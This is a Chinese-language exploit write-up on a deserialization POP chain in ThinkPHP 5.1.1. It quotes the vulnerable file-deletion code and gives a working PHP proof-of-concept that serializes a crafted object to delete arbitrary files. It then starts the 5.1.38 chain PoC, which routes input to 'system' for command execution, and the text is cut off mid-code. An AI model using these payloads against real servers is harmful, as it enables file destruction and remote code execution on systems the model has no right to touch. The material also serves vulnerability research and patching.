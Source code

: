 Thinkphp 5.1.1 反序列化pop链构造
================================

一、漏洞简介
------------

5.1.1的代码实现和5.1.38不同，于是就有了这篇文章

二、漏洞影响
------------

Thinkphp 5.1.1

三、复现过程
------------

这个漏洞的起点是一个任意文件删除漏洞\$this-\>files内容没有过滤，可以传入任意数值。

    /thinkphp/library/think/process/pipes/Windows.php
    public function __destruct()
        {
            $this->close();
            $this->removeFiles();
        }

     private function removeFiles()
        {
            foreach ($this->files as $filename) {
                if (file_exists($filename)) {
                    @unlink($filename);
                }
            }
            $this->files = [];
        }

poc

    <?php
    namespace think\process\pipes;
    class Windows
    {
        private $files = [];
        public function __construct()
        {
            $this->files = ['1.php'];
        }
    }
    use think\process\pipes\Windows;
    echo base64_encode(serialize(new Windows()));

### 反序列链构造

> 先分析一下thinkphp5.1.38的poc

    <?php
    namespace think;
    abstract class Model{
        protected $append = [];
        private $data = [];
        function __construct(){
            $this->append = ["ethan"=>["calc.exe","calc"]];
            $this->data = ["ethan"=>new Request()];
        }
    }
    class Request
    {
        protected $hook = [];
        protected $filter = "system";